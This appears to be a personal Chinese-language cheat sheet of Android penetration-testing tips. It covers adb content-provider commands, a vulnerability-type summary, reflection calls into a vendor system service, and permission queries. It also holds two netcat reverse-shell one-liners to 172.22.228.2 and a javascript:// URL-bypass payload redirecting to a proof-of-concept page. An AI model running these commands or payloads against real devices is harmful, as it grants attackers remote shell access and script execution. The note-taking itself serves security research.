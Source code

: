 ```yaml
---
title: 小知识
slug: blog/discussion-1/
number: 1
url: https://github.com/CloveIso/notes/discussions/1
date:
  created: 2024-11-19
  updated: 2024-11-19
created: 2024-11-19
updated: 2024-11-19
authors: [Cloveiso]
categories: []
comments: true
---
```


1、应用对应的uid  /data/system/packages.list

2、adb操作provider

```
content query --uri content://icc/adn 
content delete --uri content://settings/settings/pointer_speed
content insert --uri content://settings/settings --bind name:s:my_number --bind value:i:2
```

3、android 反弹shell

```
rm /data/local/tmp/f;mkfifo /data/local/tmp/f;cat /data/local/tmp/f|/bin/sh -i 2>&1|nc 172.22.228.2 2222 >/data/local/tmp/f
nc 172.22.228.2 2222|/bin/sh|nc 172.22.228.2 6666
```

4、查看进程状态和uid状态

```
dumpsys activity processes | grep UidRecord -C 2
```

5、协议绕过

javascript://mall.vivo.com/%0D%0Awindow.location.href='http://172.25.100.118/js_poc.html'

6、android漏洞总结

```
1、activity
越权绕过、钓鱼欺诈/Activity劫持、隐式启动Intent包含敏感数据、拒绝服务攻击、intent重定向
2、service
权限提升漏洞、service劫持、消息伪造、拒绝服务攻击
3、broadcast reciver
敏感信息泄漏漏洞、权限绕过漏洞、消息伪造、拒绝服务
4、provider
信息泄露、sql注入、目录遍历

```

7、调用系统服务

```kotlin
try {
    val getServiceMethod = Class.forName("android.os.ServiceManager").getMethod(
        "getService",
        String::class.java
    )
    val binder = getServiceMethod(null, "companiondevice") as IBinder
    val clsStub = Class.forName("android.companion.ICompanionDeviceManager\$Stub")
    val asInterfaceMethod = clsStub.getDeclaredMethod("asInterface", IBinder::class.java)
    val service = asInterfaceMethod(null, binder)
    val clsProxy = Class.forName("com.vivo.framework.vivo4dgamevibrator.IVivo4DGameVibratorService\$Stub\$Proxy")
    val testMethod = clsProxy.getDeclaredMethod(
        "dualVibrate", // change the method name
        Float::class.java, Int::class.java, Long::class.java, Long::class.java // method args
    )
    testMethod(service, 10)
} catch (e: Exception) {
    e.printStackTrace()
}
```

8、查看权限等级

```
pm list permissions -f (经常报错)
dumpsys package | grep -F "Permission [android.permission.DEVICE_POWER]" -C 3
```

